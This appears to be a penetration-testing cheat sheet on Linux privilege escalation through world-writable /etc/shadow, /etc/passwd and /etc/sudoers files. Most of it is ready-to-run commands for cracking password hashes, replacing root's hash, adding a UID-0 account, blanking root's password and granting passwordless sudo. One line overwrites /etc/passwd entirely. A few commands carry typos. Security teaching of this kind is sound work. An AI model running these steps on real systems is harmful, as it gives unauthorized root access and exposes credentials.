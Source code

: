 # World-Writable Files
If config files like /etc/passwd, /etc/shadow, or /etc/sudoers are writable, you can manipulate them for privilege escalation.
As an ethical hacker or penetration tester, exploiting world-writable files is a common technique for privilege escalation on Linux systems. World-writable files allow any user to write to them, which can be leveraged to gain higher privileges. Here are some techniques to exploit world-writable files for privilege escalation:

## 📌/etc/shadow file:
The /etc/shadow file contains user password hashes and is usually readable only by the root user.

### Method-1️⃣: Crack Password using John The Ripper.
Try to Creach the password using John The Ripper.
```
ls -la /etc/shadow		# → Check the /etc/shadow file permission
cat /etc/shadow			# → View the content.
```
Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.
Save the root user hash into a file called hash.txt in your attacking machine.
Crack the password:
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Switch to the root user using the cracked password
```
su root
```

### Method-2️⃣: Replace the password hash for root users in /etc/shadow file with our encrypted password.
Generate a new password hash with a password of your choice:
```
mkpasswd -m sha-512 newpasswordhere
```
Copy the ouput --> Then.
```
vim /etc/shadow
```
Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.
```
:wq!
su root
id && whoami
```

### Method-3️⃣: Crack Password using hashcat.
View the content of the /etc/passwd and /etc/shadow files.
```
cat /etc/passwd
cat /etc/shadow
```
Copy or Save the content in attacking machine.
```
vim passwd.txt
# → Paste the /etc/passwd file content
:wq

vim shadow.txt
# → Paste the /etc/shadow file content
:wq
```
Crack the password
```
unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt
hashcat -m 1800 unshadowed.txt rockyou.txt -O
```

## 📌/etc/passwd file:
The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the /etc/passwd file contained user password hashes, and some versions of Linux will still allow password hashes to be stored there.
Note that the /etc/passwd file is world-writable:
```
ls -la /etc/passwd
```

### Method-1️⃣: Add new user to the system with GID and UID of 0 
```
echo 'root2::0:0::/root:/bin/bash' >> /etc/passwd
su - root2
id && whoami
```

### Method-2️⃣:  Remove root's password
```
vi /etc/passwd
# → Remove X (Password Holder) for root
wg!
su root
id && whoami

#or

echo root::0:0:root:/root:/bin/bash > /etc/passwd
id && whomai
```

### Method-3️⃣: Replace the password hash for existing users in /etc/passwd file with our encrypted password.
```
openssl passwd -1 -salt ignite NewRootPassword
# → Copy output
echo "root2:<output>:0:0:root:/root:/bin/bash" >> /etc/passwd
# → Replace <output> with the copied output
su root2
id && whoami
```

## 📌/etc/sudores file:
/etc/sudoers File Controls who can run what commands as root or other users using sudo. It defines user and group permissions for sudo.
Allows privilege escalation by letting certain users execute commands as another user (typically root).

### Method-1️⃣: Edit or modify /etc/sudoers files and Allow for your current user.
```
echo "<username> ALL=(ALL:ALL) ALL" >> /etc/sudoers  # → Replace <username> with your current user (Example: www-data)
sudo su
id && whoami
```

### Method-2️⃣: Use SUDO without password
```
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```
